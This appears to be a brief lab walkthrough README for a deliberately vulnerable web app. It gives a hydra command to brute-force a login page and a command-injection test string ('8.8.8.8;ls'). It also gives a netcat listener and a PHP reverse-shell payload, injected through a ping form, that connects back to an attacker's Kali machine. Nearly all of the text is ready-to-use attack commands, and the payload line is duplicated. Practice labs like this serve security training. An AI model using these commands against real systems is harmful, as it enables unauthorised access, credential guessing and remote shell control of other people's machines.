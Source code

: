 

### Brute Force the login page



MACHINE_IP/login.php
` hydra -l admin -P <path/to/file> MACHINE_IP http-post-form "/:username=^USER^&^password=PASS^:F='Login failed'" -V `


## Command Injection

##### Vulnerability Level: 

[![css progressbar](https://readme-components.vercel.app/api?component=linearprogress&skill=Low&value=25)](https://github.com/harish-sethuraman/readme-components)

1. Testing for vulnerability by listing the directories
` 8.8.8.8;ls `

2. Gaining a Reverse Shell
    - Open a netcat listener in Kali terminal
    ` nc -lnvp <port> `

    - Past this code in the 'Enter an IP address: ' form. Make sure to prepend an IP address for the ping command to run and the reverse shell to work.
    `8.8.8.8;php -r '$sock=fsockopen("<KaliMachineIP>",4242);exec("/bin/sh -i <&3 >&3 2>&3");' php -r '$sock=fsockopen("<kaliMACHINEIP>",4242);exec("/bin/sh -i <&3 >&3 2>&3");' `
